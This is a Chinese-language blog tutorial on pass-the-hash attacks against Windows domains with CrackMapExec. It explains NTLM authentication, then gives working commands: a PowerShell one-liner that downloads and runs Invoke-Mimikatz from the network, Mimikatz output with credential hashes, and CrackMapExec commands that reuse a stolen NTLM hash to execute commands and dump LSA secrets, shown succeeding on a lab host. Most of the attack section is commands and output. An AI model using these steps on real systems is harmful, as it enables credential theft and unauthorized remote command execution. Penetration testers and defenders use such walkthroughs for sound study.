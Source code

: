 ```yaml
---
categories: 内网渗透
date: "2018-03-27T00:00:00Z"
description: 本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
title: 使用CrackMapExec 进行 NTLM Hash传递攻击
url: /archivers/2018-03-27/1
---
```


本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
<!--more-->
* 目录
{:toc}

## 0x01 前言

早期`SMB`协议在网络上传输明文口令。后来出现 `LAN Manager Challenge/Response `验证机制，简称`LM`，它是如此简单以至很容易就被破解。微软提出了WindowsNT挑战/响应验证机制，称之为NTLM。

从`Win2000`开始默认协议为`Kerboros`，下列情况会调用`NTLM`：

* 遗留客户端或服务器需要登录到网络或本地时。
* UNIX客户端需要与NT服务器通话时。
* 有正在使用验证`NTLM`的服务器信息块`（SMB）`后台程序的UNIX客户端时。
* 也即认证方或被认证方有仅支持NTLM情况时。

它以`挑战/响应（Challenge/Response）`顺序为基础。


* 1.客户端发送用户名和域名到服务器。
* 2.服务器转发到域控制器DC。
* 3.`DC`用客户端密码随机产生一个`8字节`得挑战`（Challenge）`，发送给服务器。
* 4.服务器将挑战转发给客户端。
* 5.客户端用密码经过`hash`及`DES`加密算法等操作得到一个加密结果响应`（Response）`发送给服务器。
* 6.服务器将响应转发给`DC`。
* 7.`DC`做同样操作验证客户端响应。
* 8.验证结束，返回结果通知服务器。


## 0x02 NTLM对渗透的作用

NTLM就好像是一个令牌，有了这个令牌就相当于获取了这个令牌所属者的权限。

最大的特点就是我们可以使用`SMB`执行`Command`。

## 0x03 CrackMapExec 介绍

CrackMapExec提供了域环境（活动目录）渗透测试中一站式便携工具，它具有列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表，执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。


WiKi:https://github.com/byt3bl33d3r/CrackMapExec/wiki

## 0x03 安装CrackMapExec

### Kali Linux

`apt-get install crackmapexec`

### Debian/Ubuntu

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```

## 0x04 传递NTLM Hash执行命令

### 使用`Mimikatz`获取`NTLM Hash`

```

PS C:\Users\administrator\Documents>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')

PS C:\Users\administrator\Documents>Invoke-Mimikatz

```

获取NTLM Hash

```
****
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : PAYLOADS
         * LM       : 5609e3f4c7c56d5fa86fb73c70515bd7
         * NTLM     : dab7de8feeb5ecac65faf9fdc6cac3a9
         * SHA1     : 67302089bba4993f2f845e5992db0a21e64679fa
        tspkg :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        wdigest :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        kerberos :
         * Username : Administrator
         * Domain   : PAYLOADS.ONLINE
         * Password : ****
        ssp :
        credman :

****

```

### 使用`CrackMapExec`执行命令

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Executed command 
SMB         192.168.3.5     445    LIYINGZHEA30B    payloads\administrator
```

### 使用`CrackMapExec`获取本地密码(Local Security Authority)LSA

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 --lsa
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumping LSA secrets
SMB         192.168.3.5     445    LIYINGZHEA30B    WinHack:d3a4b1078aba22996575dd38056e3c99:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    Administrator:ff007a95ee46c0240e7f0c4b9b0c890a:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    PAYLOADS\LIYINGZHEA30B$:aad3b435b51404eeaad3b435b51404ee:eda8896ce9133d0bcaf0b6ece9cb0d45:::
SMB         192.168.3.5     445    LIYINGZHEA30B    DPAPI_SYSTEM:01000000faf06c0f43acbed98d62bd9829d053acb06a00f159e3419d193ff5be56c028fe8d7f0053161d9331
SMB         192.168.3.5     445    LIYINGZHEA30B    NL$KM:ac8c8a7ce1dd903d74a231a44fcf5df82db711df62e495da9b5f10c3a52dd618a8abce6975c69fea6a9ed69ff6511c62f9a750b5d696a69c3221dc0f1f849f3d
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumped 5 LSA secrets to /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.lsa and /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.cached
```

### More ...

后续再加
